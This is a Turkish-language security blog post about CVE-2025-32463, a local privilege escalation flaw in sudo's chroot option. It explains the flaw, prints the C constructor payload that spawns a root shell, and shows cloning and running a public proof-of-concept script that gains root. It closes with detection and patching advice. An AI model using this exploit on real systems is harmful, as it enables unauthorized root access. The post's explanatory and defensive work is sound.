 ```yaml
---
title: "CVE: Sudo Chroot CVE-2025-32463"
author: b1lal
categories: [CVE, "2025"]
tags: [cve, cve 2025-32463, privilege escalation, chroot, chwoot, PoC, linux, sudo, zero-day, exploit]
render_with_liquid: false
description: "Sudo Chroot: CVE-2025-32463 zafiyeti hakkında detaylı bilgiler ve sömürü yöntemini ele alacağız."
media_subpath: /images/sudo_chroot_2025-32463/
layout: post
published: true  
lang: "tr"
image:
  path: image.png
  alt: "Sudo Chroot: CVE-2025-32463"
---
```



Bu yazımda, kısa bir süre önce yayınlanan ve sudo'nun chroot (chwoot) fonksiyonunu etkileyen kritik bir yerel yetki yükseltme zafiyeti olan `CVE-2025-32463`'ü inceleyeceğiz. Bu açık, sistemde sudo kuralı tanımlı olmayan sıradan kullanıcıların bile root yetkileri elde etmesine olanak tanımaktadır.

<br>

## **Nasıl Çalışıyor?**

Zafiyet, sudo’nun `-R` veya `--chroot` parametresinin kullanımı sırasında, belirtilen kök dizine (**chroot** dizini) geçilerek komut eşleştirme işleminin bu ortamda yapılmasından kaynaklanmaktadır. Bu süreçte, saldırgan chroot dizinine sahte bir `/etc/nsswitch.conf` yerleştirerek, sudo’nun kötü niyetli bir **shared object** dosyasını (**libnss_*.so**) yüklemesini sağlayabilir.

Bu dosya sayesinde, sistemde root haklarıyla bir shell başlatılabilir.

<br>

### **Etkilenen Versiyonlar**

- Sudo **1.9.14 – 1.9.17**

<blockquote class="prompt-danger"><p>Etkilenmeyen sürümler: <b>Sudo <= 1.8.32</b> (çünkü <b>chroot</b> desteği bu sürümlerde yoktur)
</p></blockquote>

<blockquote class="prompt-info"><p>Versiyon kontorolü için şu komutu kullanabilirsiniz:

   <b>sudo -V | grep "Sudo version"</b>

</p></blockquote>

<br>

### **Zafiyetin Etkisi**

Sudo konfigürasyonunda hiçbir izin tanımlanmamış olsa bile, sistemde yüklü olan savunmasız sudo sürümü ile yerel bir kullanıcı **root** erişimi elde edebilir.

Bu durum, sistemin bütünlüğü, gizliliği ve erişilebilirliği üzerinde ciddi tehditler oluşturur.



<br>

### **Detaylı Teknik Açıklama**

Zafiyetin kökeni, sudo'nun `chroot()` çağrısını sudoers kuralı eşleştirilmeden önce yapmasıdır. Bu sayede:

- **pivot_root()** ve **unpivot_root()** ile sistem geçici olarak **chroot** ortamına alınır,

- Bu ortamda `/etc/nsswitch.conf` içindeki servis girdileri işlenir (örn: **passwd: /woot1337**),

- Bu girdiler, **libnss_woot1337.so.2** gibi saldırgan tarafından hazırlanan **.so** dosyalarının yüklenmesine sebep olur.

Bu shared object dosyası, **constructor** niteliğinde bir `woot()` fonksiyonu içerir:

```c
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  execl("/bin/bash", "/bin/bash", NULL);
}
```

Bu fonksiyon çalıştığında, shell doğrudan root olarak başlatılır.


<br>

## **Nasıl Sömürülür?**

İlk olarak sömürü repomuzu aşağıdaki gibi sisteme klonluyoruz:

```console
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git           
Cloning into 'CVE-2025-32463_chwoot'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 9 (delta 2), reused 9 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (2/2), done.
```

Daha sonra `CVE-2025-32463_chwoot` dizinine geçiyoruz:

```console
┌──(kali㉿kali)-[~]
└─$ cd CVE-2025-32463_chwoot 
```

Şimdi de son olarak exploiti çalıştırıyoruz:

```console
┌──(kali㉿kali)-[~/CVE-2025-32463_chwoot]
└─$ ./sudo-chwoot.sh 
woot!
┌──(root㉿kali)-[/]
└─# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),107(bluetooth),115(scanner),126(lpadmin),134(wireshark),136(kaboxer),1000(kali)
```

<br>

## **Tespit**
- Sistem loglarında `CHROOT=` içeren sudo komutlarını kontrol edin.

- `/etc/sudoers` ve `/etc/sudoers.d/` dizinlerinde `CHROOT=` veya `runchroot=` içeren satırları arayın.

- `ldapsearch` gibi araçlarla LDAP üzerinden tanımlanmış sudo kurallarını da gözden geçirin.

<br>

## **Önlem ve Güncelleme**

- Sudo’yu `1.9.17p1` veya daha yeni bir sürüme güncelleyin.

- Bu güncelleme, sudoers eşleştirme sırasında `chroot()` çağrısını devre dışı bırakır.

- Gelişmiş sistemlerde AppArmor/SELinux gibi kontrol mekanizmalarıyla sudo komutlarını izole edin.



<br>

## Referanslar

- <a href="https://nvd.nist.gov/vuln/detail/CVE-2025-32463" target="_blank" rel="noopener noreferrer">https://nvd.nist.gov/vuln/detail/CVE-2025-32463</a>
- <a href="https://www.sudo.ws/security/advisories/" target="_blank" rel="noopener noreferrer">https://www.sudo.ws/security/advisories/</a>
- <a href="https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot" target="_blank" rel="noopener noreferrer">https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot</a>
- <a href="https://github.com/pr0v3rbs/CVE-2025-32463_chwoot" target="_blank" rel="noopener noreferrer">https://github.com/pr0v3rbs/CVE-2025-32463_chwoot</a>


<br>

<p style="font-weight:900; color: gray; font-size: 50px; text-align:center;">Okuduğunuz için teşekkür ederim.<p>

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

.post-desc {
  font-family: 'Open Sans', sans-serif !important;
}
</style>
